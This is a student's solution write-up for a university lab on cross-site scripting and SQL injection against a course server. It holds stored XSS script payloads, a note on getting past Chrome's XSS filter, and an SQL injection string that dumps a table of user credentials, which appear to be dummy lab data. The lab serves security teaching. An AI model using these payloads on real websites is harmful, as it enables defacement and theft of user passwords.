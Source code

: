 Lab 17
==============================

> This lab focuses on cross-site scripting (XSS) and SQL injection attacks. Form a group of 2-3 people and get a group name from me. The url for this exercise is http://cs31.cs.sjsu.edu/[groupname]/thanks.php, where [groupname] is the name of your group.

## Part 1

> First we will look at reflected XSS attacks. Go to `/thanks.php`. In the "Hero's name" field (outlined in red), enter:
> 
> ```html
> <script>alert("I am Gotham's reckoning")</script>
> ```
> 
> Try this with Firefox, Chrome, and either Internet Explorer or Safari. What is the difference in behavior between the different browsers?
> 
> While most browsers include XSS filters (or have addons like NoScript), they are not foolproof.  Experiment with the `"show search params"` button on `/thanks.php`.  Using this feature, bypass Chrome's XSS filter to change the first `h1` element on the page to be green. Describe how you did this.
> 
> Using a **stored** XSS attack, inject code into thanks.php that changes the first HTML element on the page to read "Kneel Before Zod!". JavaScript's `document.getElementById` and `innerHTML` features may be useful.

Firefox allows the "gotham's reckoning" script to execute, but Chrome's XSS Auditor blocks it. URL encoding the GET parameter, and img tag onerror both didn't work, but a stored XSS will bypass the auditor. Entering the following in the testimonial details will work:

<script>document.getElementById("gratitude").style.color = "yellow";</script>

THe content can be changed to "kneel before zod" with the following, again in the testimonial details:

<script>document.getElementById("gratitude").innerHTML = "Kneel Before Zod!"</script>

## Part 2

> Using SQL injection, get the full password list, stored in the user1 table. Note that the page `/thanks.php` does not properly sanitize its input. Describe what you did and list all username/password combinations in the table.

Arbitrary queries can be entered by closing the query and commenting out the rest with `'; (your query here); --`. Using the postresql command to view all tables shows a user1 table, and `'; SELECT * FROM user1; --` returns all entries:

| id | name        | password  |
| -- | ----------- | --------- |
| 1  | batman      | gotham    |
| 2  | aquaman     | fish      |
| 3  | guest       | guest     |
| 4  | admin       | admin123  |
| 5  | wolverine   | harley    |
| 6  | superman    | superman  |
| 7  | wonderwoman | letmein   |
| 8  | spiderman   | password  |

